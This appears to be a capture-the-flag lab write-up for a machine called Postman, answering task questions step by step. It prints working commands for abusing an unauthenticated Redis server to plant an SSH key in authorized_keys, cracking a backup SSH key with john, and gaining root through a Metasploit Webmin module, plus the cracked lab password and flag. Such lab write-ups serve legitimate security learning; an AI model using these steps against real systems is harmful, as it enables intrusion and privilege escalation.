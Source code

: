 ## Postman

### Lab Details 

- Difficulty: Easy
- Type: Redis, Webmin, SSH, Priv Esc, Linux

#### Tasks
Q1: What version of Redis is running on port 6379?
- run `nmap -sT -T4 -vv -A -p- -oA Postman target_ip`
```
6379/open/tcp//redis//Redis key-value store 4.0.9/
```

Q2: What is the config directory for redis?
- to find the config directory for redis firt need to connect to redis services 
`redis-cli -h target_ip`
- then locate the config directory by running below `config get dir` or `config get *` to get all configuration settings
```
10.10.10.160:6379> config get dir 
1) "dir"
2) "/var/lib/redis" -> this is the config directory 

10.10.10.160:6379> config get * 
...
##return a list of key-value pairs where each key is a configuration parameter and the corresponding value is its current setting.
1) "dbfilename"         #Key: Name of the RDB snapshot file
2) "dump.rdb"           #Value: Default filename
3) "requirepass"        #Key: Password for authentication
4) ""                   #Value: no password set  
5) "dir"                #Key: Directory for persistence files
6) "/var/lib/redis"     #Value: Default storage directory 
...
165) "dir"              #Key:  Working directory where Redis stores
166) "/var/lib/redis"   #Value: The directory where Redis saves its persistent data
...
```

Q3: As which user you can get code execution through Redis?
- since requirepass is no value which means anyone can access/modify data remotely 
- check if we can run whoami on redis remote by running `ACL whoami` however return error
```
10.10.10.160:6379> ACL whoami
(error) ERR unknown command 'ACL'
```
- check remote version
```
10.10.10.160:6379> info server
# Server
redis_version:4.0.9
```
- test if we have write permission over remote redis service 
``` 
10.10.10.160:6379> set test:write "hello world"
OK
```
- in the end i wasnt able to get the name from remote instance so i tried default and then redis and redis is the correct answer i think its might be due to the config location sometimes it can be at /home/redis and /home is where local user directory resides

Q4: What's the full path of an SSH backup key that redis can read?
- in order to read the path we will need to first gain the initial foodhold over the remote target
- we can exploit the lack of write restriction by uploading self generated public key to the remote target 
- below are lins to useful posts on how to perform such attack
  - https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419 - https://secybr.com/posts/redis-pentesting-best-practices/
- gist as per below
```
$: ssh-keygen -t rsa
$: (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
$: cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
$:  redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```
- after uploading the public key to remote we can ssh in using the corresponding private key and user named redis
```
ssh -i id_rsa redis@target_ip
```
- we get a shell as redis
```
redis@Postman:~$ whoami
redis
```
- run linpeas.sh to gain more info on the target, we found `id_rsa.bak` for user Matt
```
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak 
```
- the last permission bit gives others rx access

Q5: What is the password for the SSH key?
- the private key requires password when `ssh -i id_rsa Matt@target_ip`
- therefore need to crack it before, below is using john as hashcat does not support ssh 
```
$: ssh2john id_rsa > rsa.hash 
$: john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash 
...
computer2008     (id_rsa_matt)

Q6: Which user uses the same password as the one used to decrypt the SSH key?
 - Matt is the user as its owned by Matt

Q7: Submit the flag located in the Matt user's home directory.
- `cat /home/Matt/user.txt`

Q8: Which vulnerable version of Webmin is running on the machine?
- found theres `/usr/share/webmin/` directory on the machine and there is a version file in that directory 
- `cat version` -> 1.910 
```
╔══════════╣ Analyzing Postfix Files (limit 70)
...
drwxr-xr-x 5 root root 12288 Aug 25  2019 /usr/share/webmin/postfix
```


Q9: Which user does the Webmin instance run as?
- based on the output of linpeas.sh webmin is running as root 
```
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                            
                ╚════════════════════════════════════════════════╝                                            
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
...
root        724  0.0  3.1  90944 28832 ?        Ss   11:51   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
...

Q10: 
- use linux/http/webmin_packageup_rce from msfconsole
- set SSL = True and the rest of the info, username is Matt and password is computer2008
- will get a root shell back 
```
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
cat /root/root.txt
2b45ad724078db87b9cbb053aaa9ada5
```



#### Lesson Learned
- learned how to compromise weakly configured redis server but using readily available info
- use john to crack ssh private key passwords

